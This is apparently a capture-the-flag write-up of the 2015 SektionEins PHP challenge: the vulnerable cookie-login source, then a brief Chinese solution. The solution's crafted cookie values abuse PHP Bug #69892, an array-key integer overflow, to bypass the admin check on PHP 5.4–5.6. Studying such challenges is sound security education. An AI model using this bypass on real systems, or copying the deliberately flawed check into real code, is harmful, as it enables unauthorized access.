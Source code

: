 # Challenge
```php
<?php

/*******************************************************************
 * PHP Challenge 2015
 *******************************************************************
 * Why leave all the fun to the XSS crowd?
 *
 * Do you know PHP?
 * And are you up to date with all its latest peculiarities?
 *
 * Are you sure?
 *
 * If you believe you do then solve this challenge and create an
 * input that will make the following code believe you are the ADMIN.
 * Becoming any other user is not good enough, but a first step.
 *
 * Attention this code is installed on a Mac OS X 10.9 system
 * that is running PHP 5.4.30 !!!
 *
 * TIPS: OS X is mentioned because OS X never runs latest PHP
 *       Challenge will not work with latest PHP
 *       Also challenge will only work on 64bit systems
 *       To solve challenge you need to combine what a normal
 *       attacker would do when he sees this code with knowledge
 *       about latest known PHP quirks
 *       And you cannot bruteforce the admin password directly.
 *       To give you an idea - first half is:
 *          orewgfpeowöfgphewoöfeiuwgöpuerhjwfiuvuger
 *
 * If you know the answer please submit it to info@sektioneins.de
 ********************************************************************/

$users = array(
        "0:9b5c3d2b64b8f74e56edec71462bd97a" ,
        "1:4eb5fb1501102508a86971773849d266",
        "2:facabd94d57fc9f1e655ef9ce891e86e",
        "3:ce3924f011fe323df3a6a95222b0c909",
        "4:7f6618422e6a7ca2e939bd83abde402c",
        "5:06e2b745f3124f7d670f78eabaa94809",
        "6:8e39a6e40900bb0824a8e150c0d0d59f",
        "7:d035e1a80bbb377ce1edce42728849f2",
        "8:0927d64a71a9d0078c274fc5f4f10821",
        "9:e2e23d64a642ee82c7a270c6c76df142",
        "10:70298593dd7ada576aff61b6750b9118"
);

$valid_user = false;

$input = $_COOKIE['user'];
$input[1] = md5($input[1]);

foreach ($users as $user)
{
        $user = explode(":", $user);
        if ($input === $user) {
                $uid = $input[0] + 0;
                $valid_user = true;
        }
}

if (!$valid_user) {
        die("not a valid user\n");
}

if ($uid == 0) {

        echo "Hello Admin How can I serve you today?\n";
        echo "SECRETS ....\n";

} else {
        echo "Welcome back user\n";
}
```
# Solution
此题运行在 PHP 5.4.30 上。
详细解答见： [PHP Challenge 2015 Solution](http://www.sektioneins.de/blog/15-08-03-php_challenge_2015_solution.html)

hund的md5值为06e2b745f3124f7d670f78eabaa94809
这里判断要输入数组来进入

```
cookie:
user[0]=5
user[1]=hund
```

绕过 $uid == 0 就需要 user[0]=0 
利用 Bug #69892
在 php 5.4.0 - 5.4.43, 5.5.0 - 5.5.26, 5.6.0 - 5.6.10 这些版本中

```php
<?php
var_dump([0 => 0] === [0x100000000 => 0]); // bool(true)
```

来绕过

cookie:
`user[4294967296]=5&user[1]=hund`


# Reffenence
+ [PHP Challenge 2015](http://www.sektioneins.de/blog/15-07-31-php_challenge_2015.html)
+ [PHP Challenge 2015 Solution](http://www.sektioneins.de/blog/15-08-03-php_challenge_2015_solution.html)